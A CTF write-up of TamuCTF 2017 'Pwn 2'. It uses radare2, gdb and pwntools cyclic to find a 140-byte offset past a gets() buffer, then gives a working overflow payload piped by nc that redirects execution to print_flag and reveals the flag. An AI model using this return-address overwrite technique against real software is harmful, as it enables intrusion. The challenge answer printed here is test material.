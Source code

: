 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-28T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 2"
summary: "We are given a source code file and a binary which is being run remotely. Let's a analyze it with radare2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn2 challenge description](/assets/1-pwn2_description.png)

We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.

![Pwn2 call in main function](/assets/2-pwn2_call_echo_in_main.png)

Lets see what it does:

```bash
$ pdf @ sym.echo
```
![Pwn2 echo function content](/assets/3-pwn2_echo_function.png)

Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function will finish the CPU will need to continue the execution right after the call.  
Like this:

![Pwn2 Normal execution flow](/assets/4-pwn2_normal_flow.png)    

And the stack will look like:

![Pwn2 Stack view on echo call](/assets/5-pwn2_stack_view.png)    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500)' > input.txt    # We generate a long string and save it in a text file.
$ gdb pwn2                                  # We open the binary with gdb.
(gdb) run < input.txt                       # Run the binary with the content of input.txt as input.
```

![Pwn2 GDB executing pwn2](/assets/6-pwn2_gdb.png) 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt  # Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

![Pwn2 GDB Executing pwn2](/assets/7-pwn2_gdb_cyclic.png) 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

![Pwn2 Modified execution flow](/assets/8-pwn2_modified_flow.png) 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"><img src="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
